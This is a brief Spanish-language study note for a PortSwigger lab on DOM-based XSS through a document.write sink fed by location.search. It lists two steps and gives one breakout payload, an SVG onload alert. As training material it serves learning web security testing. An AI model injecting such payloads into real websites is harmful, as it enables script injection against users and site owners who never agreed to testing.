 Tags: #XSS #PortSwigger 
# Lab 3 DOM XSS in document.write sink using source location.search

```javaScript
// Para este tipo de ataque, debemos de buscar la manera de poder inyectar codigo JavaScript

1. Mirar el codigo fuente en donde estamos colocando texto
2. Ver la manera de poder cerrar alguna comilla para poder inyectar codigo JavaScript

"><svg/onload=alert(1)>
```
